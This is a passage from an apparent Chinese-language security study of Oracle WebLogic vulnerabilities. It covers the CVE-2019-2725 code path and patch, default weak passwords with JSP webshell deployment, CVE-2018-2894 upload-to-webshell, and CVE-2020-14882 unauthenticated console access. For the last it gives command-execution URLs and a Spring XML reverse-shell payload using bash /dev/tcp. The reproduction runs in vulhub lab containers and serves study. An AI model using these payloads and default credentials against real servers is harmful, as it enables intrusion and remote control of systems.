run:285, BaseWSServlet$AuthorizedInvoke (weblogic.wsee.server.servlet)
service:169, BaseWSServlet (weblogic.wsee.server.servlet)
service:820, HttpServlet (javax.servlet.http)
run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
execute:301, ServletStubImpl (weblogic.servlet.internal)
execute:184, ServletStubImpl (weblogic.servlet.internal)
wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:120, SecurityManager (weblogic.security.service)
securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
execute:2179, WebAppServletContext (weblogic.servlet.internal)
run:1490, ServletRequestImpl (weblogic.servlet.internal)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)
```

在 weblogic/wsee/server/servlet/SoapProcessor 中的 process 方法对 soap 消息进行了处理，post 提交，调用其本类的 handlePost 方法进行处理

```plain
private void handlePost(BaseWSServlet var1, HttpServletRequest var2, HttpServletResponse var3) throws IOException {
    assert var1.getPort() != null;
    // 获取 WsPort 对象
    WsPort var4 = var1.getPort();
    // 获取绑定类型
    String var5 = var4.getWsdlPort().getBinding().getBindingType();
    // 创建 HttpServerTransport 实例，用于处理 HTTP 请求和响应
    HttpServerTransport var6 = new HttpServerTransport(var2, var3);
    // 获取 WsSkel 对象
    WsSkel var7 = (WsSkel)var4.getEndpoint();

    try {
        // 使用Connection工厂创建服务器连接
        Connection var8 = ConnectionFactory.instance().createServerConnection(var6, var5);
        var7.invoke(var8, var4);
    } catch (ConnectionException var9) {
        // 调用WsSkel的invoke方法，处理连接和WsPort对象
        this.sendError(var3, var9, "Failed to create connection");
    } catch (Throwable var10) {
        this.sendError(var3, var10, "Unknown error");
    }
}
```

中间的其他过程不管，来到 weblogic/wsee/workarea/WorkAreaServerHandler 中的 handleRequest 方法

```plain
public boolean handleRequest(MessageContext var1) {
    try {
        WlMessageContext var2 = WlMessageContext.narrow(var1);
        // 获取消息头部
        MsgHeaders var3 = var2.getHeaders();
        // 从消息头部获取 WorkAreaHeader
        WorkAreaHeader var4 = (WorkAreaHeader)var3.getHeader(WorkAreaHeader.TYPE);
        if (var4 != null) {
            // 获取 WorkContextMapInterceptor 实例
            WorkContextMapInterceptor var5 = WorkContextHelper.getWorkContextHelper().getInterceptor();
            // 使用 WorkContextXmlInputAdapter 适配器接收请求
            var5.receiveRequest(new WorkContextXmlInputAdapter(var4.getInputStream()));
            if (verbose) {
                Verbose.log("Received WorkAreaHeader " + var4);
            }
        }

        return true;
    } catch (IOException var6) {
        throw new JAXRPCException("Unable to procees WorkContext:" + var6);
    }
}
```

前面也提到，WorkContextXmlInputAdapter 的构造函数中 new 了一个 XMLDecoder 对象，传入的是 soap header 的 wordcontext 元素  
接下来的步骤和 CVE-2017-10271 一致，其实它们的漏洞原理都是一致的  
**补丁分析**：  
使用网上一张图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201619-7662e744-78b0-1.png)  
这里直接 ban 掉了 class 元素以及限制了 array 元素的长度

**参考**：  
[https://co0ontty.github.io/2019/08/08/CVE\_2019\_2725.html](https://co0ontty.github.io/2019/08/08/CVE_2019_2725.html)  
[https://xz.aliyun.com/t/5024](https://xz.aliyun.com/t/5024)

### 2.6 参考

[https://xz.aliyun.com/t/8465](https://xz.aliyun.com/t/8465)  
[https://xz.aliyun.com/t/1848](https://xz.aliyun.com/t/1848)  
[https://xz.aliyun.com/t/5046](https://xz.aliyun.com/t/5046)

## 3\. 其他漏洞

### 3.1 弱口令

**前置知识**：  
后台常用默认弱口令：

```plain
system/password
weblogic/weblogic
admin/security
joe/password
mary/password
system/security
wlcsystem/wlcsystem
wlpisystem/wlpisystem
weblogic/Oracle@123
```

weblogic 常用弱口令： [http://cirt.net/passwords?criteria=weblogic](http://cirt.net/passwords?criteria=weblogic)  
后台登录地址：/console/login/LoginForm.jsp  
另外 weblogic 的密码使用 AES 加密（老版本使用 3DES），对称密码在获取密文和密钥的情况下可解密，存放的文件均位于 base\_domain 下，名为 SerializedSystemIni.dat 和 config.xml  
**环境**：  
使用 vulhub 中的 docker 环境进行复现：

```plain
╭─dili@dili ~/vulhub/weblogic/weak_password ‹master› 
╰─$ sudo docker-compose up -d 

╭─dili@dili ~/vulhub/weblogic/weak_password ‹master› 
╰─$ sudo docker ps           
CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                                                                                  NAMES
76e193e908ce   vulhub/weblogic:10.3.6.0-2017       "startWebLogic.sh"       44 seconds ago   Up 23 seconds   0.0.0.0:5556->5556/tcp, :::5556->5556/tcp, 0.0.0.0:7001->7001/tcp, :::7001->7001/tcp   weak_password_weblogic_1
```

docker 环境在服务器中，将 7001 映射到外部端口 33401  
访问`http://10.140.32.159:33401/console/login/LoginForm.jsp`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201650-88fd01f0-78b0-1.png)  
使用常用的弱口令尝试登录，用户名：weblogic 口令：Oracle@123  
成功登入后台，接下来就是找到上传文件的点，获取 shell  
点击部署->安装  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201711-95c6efb8-78b0-1.png)  
准备一个 jsp 马，并将对应的目录打成 war 包上传

```plain
jar -cvf pack.war .
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201735-a3d58218-78b0-1.png)  
部署成功，使用冰蝎进行连接  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201756-b0b4291c-78b0-1.png)  
参考：[http://www.meta-sec.top/2022/02/09/weblogic-chang-jian-lou-dong-yi-kong-zhi-tai-ruo-kou-ling/](http://www.meta-sec.top/2022/02/09/weblogic-chang-jian-lou-dong-yi-kong-zhi-tai-ruo-kou-ling/)

### 3.2 未授权访问

#### 3.2.1 CVE-2018-2894

**漏洞复现**：  
使用 vulhub 上的 docker 搭建环境

```plain
sudo docker-compose up -d
```

查看此容器的账户和密码

```plain
sudo docker-compose logs | grep password
```

使用账户 (weblogic) 和密码 (deUHw2wQ) 登录后台  
选择高级选项  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201821-bf204814-78b0-1.png)  
启用 Web 服务测试页  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201847-ceb3ebb4-78b0-1.png)  
开发环境下的测试页有 config.do 和 begin.do  
进入 config.do 文件，将目录设置为 ws\_utc 应用的静态文件 css 目录

```plain
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201907-da92c766-78b0-1.png)  
上传一个 jsp 文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201927-e689b6e2-78b0-1.png)  
后端存储的文件名是时间戳 + 上传的文件名，时间戳会回显在代码中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201947-f28b365a-78b0-1.png)  
访问`http://10.140.32.159:33401/ws_utc/css/config/keystore/1692882428438_shell.jsp`  
使用冰蝎连接  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101202007-fe462978-78b0-1.png)  
同样可以使用 begin.do 进行利用  
访问`http://10.140.32.159:33401/ws_utc/begin.do`，上传 jsp  
尽管上传后会报错，但是抓 post 包的响应中有 jsp 文件名  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101202033-0e13eb6a-78b1-1.png)  
访问`http://10.140.32.159:33401/ws_utc/css/upload/RS_Upload_2023-08-24_13-16-31_154/import_file_name_shell.jsp`，使用冰蝎连接

#### 3.2.2 CVE-2020-14882

**漏洞复现**：  
使用 vulhub 上的 docker 搭建环境  
这里未授权访问的地址是  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29`，通过这个地址就能够进入后台  
命令执行操作：  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/CVE-2020-14882%27);%22);`  
命令执行成功  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101202058-1cc28f86-78b1-1.png)  
反弹 shell  
创建一个 xml 文件

```plain
# reverse-bash.xml

<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>/bin/bash</value>
<value>-c</value>
<value><![CDATA[bash -i >& /dev/tcp/172.24.0.1/5555 0>&1]]></value>
</list>
</constructor-arg>
</bean>
</beans>
```

访问下面 url 即可进行 shell 反弹  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://172.24.0.1:8080/cve-2020-14882-reverse-bash.xml")`

参考：[https://cert.360.cn/report/detail?id=a95c049c576af8d0e56ae14fad6813f4](https://cert.360.cn/report/detail?id=a95c049c576af8d0e56ae14fad6813f4)

....暂时写到这吧

## 4\. 总结

对于反序列化漏洞而言，原理都是相通的，从老洞开始研究不仅能够掌握更多基础原理，还能够体会防御和绕过的趣味。每次回过头来分析一编，总能有不一样的体会与理解。作为初学者，时间有限...近两年出来的洞只看了大概，还没来的及详细分析。关于 Weblogic 远不止这些，希望能够探测更多关于 Weblogic 底层的东西。

打赏
